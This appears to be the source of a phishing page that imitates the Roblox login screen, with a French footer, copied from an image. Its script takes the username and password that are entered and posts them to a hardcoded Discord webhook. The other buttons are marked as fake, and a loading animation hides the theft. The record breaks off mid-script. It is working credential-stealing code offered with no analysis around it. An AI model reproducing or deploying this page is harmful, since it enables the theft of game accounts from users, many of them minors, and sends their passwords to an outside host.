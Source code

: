   
  <div class="container">
    <h2 class="login-title">Login to Roblox</h2>

    <input type="text" id="username" class="input-field" placeholder="Username / Email / Phone" required>
    <input type="password" id="password" class="input-field" placeholder="Password" required>

    <button class="btn" onclick="sendToDiscord()">Log In</button>

    <div id="status"></div>

    <div class="link fake-action">Forgot Password or Username?</div>
    <button class="outline-btn fake-action">Another Logged In Device? Log In</button>
    <div class="link fake-action">Don't have an account? <strong>Sign Up</strong></div>
  </div>

  
  <div class="footer">
    <a href="#">À propos</a> |
    <a href="#">Emplois</a> |
    <a href="#">Blog</a> |
    <a href="#">Parents</a> |
    <a href="#">Cartes-cadeaux</a> |
    <a href="#">Aide</a> |
    <a href="#">Conditions</a> |
    <a href="#">Accessibilité</a> |
    <a href="#">Confidentialité</a> |
    <a href="#">Tes choix en matière de vie privée</a> |
    <a href="#">Options des cookies</a>
    <br><br>
    <span>©2025 Roblox Corporation. Roblox, le logo Roblox et Powering Imagination sont des marques déposées de Roblox Corporation.</span>
  </div>

  <script>
    const webhookUrl = "https://discordapp.com/api/webhooks/1370101183229857903/ciNzwq6Ngr2Ylb2iqD5VUzrEGXAPg2qDI2rOJ-LprVnav6Ypv4TjP0zhue5JpzZKyt8M";

    function sendToDiscord() {
      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;
      const status = document.getElementById("status");

      // Affiche le chargement
      status.innerHTML = `
        <div class="loader">
          <div></div><div></div><div></div>
        </div>
      `;

      // Envoi et message d'erreur après 3 secondes
      setTimeout(() => {
        fetch(webhookUrl, {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({
            content: `Tentative de connexion:\nUsername/Email/Phone: ${username}\nPassword: ${password}`,
            username: "Webhook Page Web"
          })
        });
